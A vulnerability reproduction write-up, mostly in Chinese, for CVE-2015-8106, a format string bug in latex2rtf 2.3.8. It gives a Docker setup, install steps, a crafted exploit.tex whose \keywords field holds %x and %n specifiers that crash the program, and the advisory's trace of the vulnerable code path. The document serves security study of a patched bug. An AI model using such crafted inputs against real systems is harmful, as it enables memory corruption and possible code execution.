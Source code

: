 # CVE/EDB ID

CVE-2015-8106

## Experiment Environment

实验环境：Debian 9.13

软件版本：latex2rtf 2.3.8

docker镜像：[liruochen2008/cve20158106 - Docker Image | Docker Hub](https://hub.docker.com/r/liruochen2008/cve20158106)

安装Docker之后，使用命令：`sudo docker run -t liruochen2008/cve20158106:v3`即可获取镜像并创建容器，容器会自动重现漏洞。

## INSTALL & Configuration

[LaTeX to RTF converter - Browse /latex2rtf-unix/2.3.8 at SourceForge.net](https://sourceforge.net/projects/latex2rtf/files/latex2rtf-unix/2.3.8/)

解压tar包之后，使用Makefile进行安装即可，具体命令如下：

```linux
tar -xvf latex2rtf-2.3.8.tar.gz
cd latex2rtf-2.3.8
make
make install
注：笔者安装2.3.8版本latex2rtf时遇到了bug，若执行make install后出现错误导致安装失败，可尝试接着执行make check（这一步仍会报错），再执行make install即可成功安装。
```



## Problems in Installation & Configuration

## How to trigger vulnerability

编写https://seclists.org/oss-sec/2015/q4/283中提供的exploit.tex，如下所示：

```latex
"exploit.tex"
========================
\documentclass{article}
\begin{document}
\title{Exploitable}
\author{Jong-Gwon Kim}
\keywords{%x\%n\%n\%n}
\end{document}
=========================
```

其中，\keywords这一行，由于latex中符号%的注释作用，会使得第一个%之后的字符全部被忽略，因此应被修改为：`\keywords{\%x\%n\%n\%n}`。

最终的触发脚本如下所示：

```latex
"exploit.tex"
========================
\documentclass{article}
\begin{document}
\title{Exploitable}
\author{Jong-Gwon Kim}
%参考文献中错误的语句
%\keywords{%x\%n\%n\%n}
%更改后正确的语句
\keywords{\%x\%n\%n\%n}
\end{document}
=========================
```

执行命令 `latex2rtf exploit.tex` 后，触发段错误。

## PoCs

[CVE-2015-8106 : Format string vulnerability in the CmdKeywords function in funct1.c in latex2rtf before 2.3.10 allows remote attackers t (cvedetails.com)](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2015-8106)

[oss-security - CVE-2015-8106 - latex2rtf v2.3.8 format string vulnerability (openwall.com)](https://www.openwall.com/lists/oss-security/2015/11/16/3)

## Vulnerability Details & Patch

```
When the user runs latex2rtf with malicious crafted tex file, an ``attacker can execute arbitrary code.
The function CmdKeywords processes the \keywords command in tex file.
The variable `keywords' in the function CmdKeywords may hold a malicious ``input string, which can be used as a format argument of vsnprintf.
-- Step 1. (funct1.c 1789 line)

1789        char *keywords = getBraceParam();
For instance, the variable keywords will point to the string “MALICIOUS” ``when a text line "\keywords{MALICIOUS}” exists in an input tex file.
-- Step 2. (funct1.c 1798 line)

1798    fprintRTF(keywords);
fprintfRTF() is called in line 1798, and the parameter is used as a ``format string, which can be malicious, as we described in step 1.
-- Step 3. (main.c 873 line)
858    void fprintRTF(char *format, ...){
      ...
873    vsnprintf(buffer, 1024, format, apf);
      ...
The value of format, which may be malicious, is used as an argument of ``vsnprintf in line 873, therefore arbitrary code can be executed.
```



## References

https://seclists.org/oss-sec/2015/q4/283
